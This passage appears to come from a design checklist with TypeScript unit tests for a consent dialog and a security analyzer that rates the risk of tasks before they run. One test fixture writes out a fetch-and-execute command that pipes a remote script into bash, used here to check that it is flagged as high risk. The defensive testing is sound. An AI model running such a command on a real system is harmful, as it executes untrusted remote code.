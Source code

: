 ### User Interface
- [ ] **Modal consent dialog** with clear, non-technical language
- [ ] **Detailed view** showing full command analysis and examples
- [ ] **Settings panel** for consent management and revocation
- [ ] **Risk indicators** with color-coded security levels
- [ ] **Execution history** showing past results and patterns

### Security Features
- [ ] **Task fingerprinting** to detect command changes after consent
- [ ] **Permission analysis** identifying potential security impacts
- [ ] **Risk assessment** with graduated warning levels
- [ ] **Automatic expiration** for high-risk consents (optional)
- [ ] **User identity tracking** for multi-user environments

## 🧪 Test Coverage

### Unit Tests
```typescript
describe('TaskSecurityAnalyzer', () => {
  it('identifies high-risk commands correctly', () => {
    const task = createMockTask({
      command: 'curl https://example.com/script.sh | bash'
    });
    
    const analysis = analyzer.analyzeTask(task);
    
    expect(analysis.riskLevel).toBe('high');
    expect(analysis.concerns).toContain('PIPE_TO_SHELL');
  });
  
  it('detects permission requirements', () => {
    const task = createMockTask({
      command: 'curl',
      args: ['-X', 'POST', 'https://api.example.com']
    });
    
    const analysis = analyzer.analyzeTask(task);
    
    expect(analysis.permissions.networkAccess).toBe(true);
    expect(analysis.permissions.filesystemWrite).toBe(false);
  });
});

describe('ConsentDialog', () => {
  it('shows appropriate risk warnings', async () => {
    const mockAnalysis = {
      riskLevel: 'high' as const,
      concerns: ['PIPE_TO_SHELL', 'REMOTE_EXECUTION']
    };
    
    const dialog = await createConsentDialog(mockChannel, mockTask, mockAnalysis);
    
    expect(dialog.content).toContain('⚠️ HIGH RISK');
    expect(dialog.content).toContain('This command downloads and executes');
  });
});
```
